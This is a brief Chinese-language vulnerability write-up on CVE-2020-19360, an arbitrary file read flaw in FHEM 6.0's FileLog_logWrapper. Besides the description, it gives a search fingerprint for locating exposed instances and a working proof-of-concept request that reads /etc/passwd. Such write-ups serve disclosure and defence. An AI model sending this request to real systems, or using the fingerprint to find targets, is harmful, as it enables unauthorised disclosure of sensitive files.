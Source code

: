 # Fhem FileLog_logWrapper 任意文件读取漏洞 CVE-2020-19360

## 漏洞描述

FHEM在6.0版本中存在文件包含漏洞，该漏洞源于允许FHEM/FileLog_logWrapper file参数允许攻击者包含文件，攻击者可以利用此漏洞导致敏感信息泄露。

## 漏洞影响

<a-checkbox checked>FHEM 6.0

## 网络测绘

<a-checkbox checked>title=="Home, Sweet Home"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1637586979107-0847f305-1296-43e5-8094-f662c312cc7e.png)

验证POC

```python
/fhem/FileLog_logWrapper?dev=Logfile&file=%2fetc%2fpasswd&type=text
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1637587030568-032b48b0-d999-4259-8651-e4e96400eb54.png)
